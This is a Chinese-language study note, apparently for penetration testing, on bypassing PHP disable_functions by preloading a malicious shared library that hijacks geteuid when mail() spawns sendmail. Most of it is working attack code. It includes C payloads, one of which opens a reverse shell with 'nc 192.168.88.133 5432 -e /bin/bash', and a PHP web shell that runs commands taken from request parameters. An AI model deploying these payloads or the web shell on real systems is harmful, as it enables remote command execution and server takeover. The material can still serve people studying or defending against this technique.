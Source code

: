 
---
# 一、原理
![[屏幕截图 2024-12-27 180100.png]]

![[屏幕截图 2024-12-27 180132.png]]

```php
<?php
mail('','','');
?>
```

![[屏幕截图 2024-12-27 181623.png]]

```
查看执行动作
strace -o 1.txt -f php demo.php
过滤
cat 1.txt | grep execve
```

![[屏幕截图 2024-12-27 181908.png]]

```
查看调用哪些库文件
可以利用getuid的库文件，实现恶意代码执行
```


![[屏幕截图 2024-12-27 182553.png]]

```C
#include<stdlib.h>
#include<stdio.h>
#include<string.h>

void payload(){

    system("echo '小可爱，你的邮件还能发出去吗？'");

}

  
int geteuid(){

    unsetenv("LD_PRELOAD");

    payload();

}

编译指令，生成共享库
gcc -shared -fPIC demo.c -o demo.so
```

![[屏幕截图 2024-12-27 183203.png]]

```
开始执行
```

# 二、实战

## 1、条件
![[屏幕截图 2024-12-27 193730.png]]

## 2、构造playload

### 1.直接执行

![[屏幕截图 2024-12-27 194003.png]]

```
#include <stdlib.h>
#include <stdio.h>
#include <string.h>


void payload(){

    system("nc 192.168.88.133 5432 -e /bin/bash");

}

int geteuid()

{

    if(getenv("LD_PRELOAD") == NULL){ return 0; }
    unsetenv("LD_PRELOAD");
    payload();

}



gcc -shared -fPIC demo.c -o demo.so
```

### 2.通过环境变量执行

![[屏幕截图 2024-12-27 201456.png]]

![[屏幕截图 2024-12-27 201821.png]]

```c
#include <stdlib.h>

#include <stdio.h>

#include <string.h>



int geteuid()

{

    const char* cmdline = getenv("EVIL_CMDLINE"); //获得系统的环境变量EVIL_CMDLINE
    if(getenv("LD_PRELOAD") == NULL){ return 0; }

    unsetenv("LD_PRELOAD"); //删除系统变量

    system(cmdline);

}
```

```php
<?php

$cmd = $_REQUEST["cmd"]; 

$out_path = $_REQUEST["outpath"]; 

$evil_cmdline = $cmd." > ".$out_path." 2>&1"; 

echo "<br /><b>cmdline: </b>".$evil_cmdline; 

putenv("EVIL_CMDLINE=".$evil_cmdline); 



$so_path = $_REQUEST["sopath"]; 

putenv("LD_PRELOAD=".$so_path); 

mail("", "", "", ""); 



echo "<br /><b>output: </b><br />".nl2br(file_get_contents($out_path))

?>
```

### 执行
![[屏幕截图 2024-12-27 202643.png]]

```
蚁剑 插件disable_function
```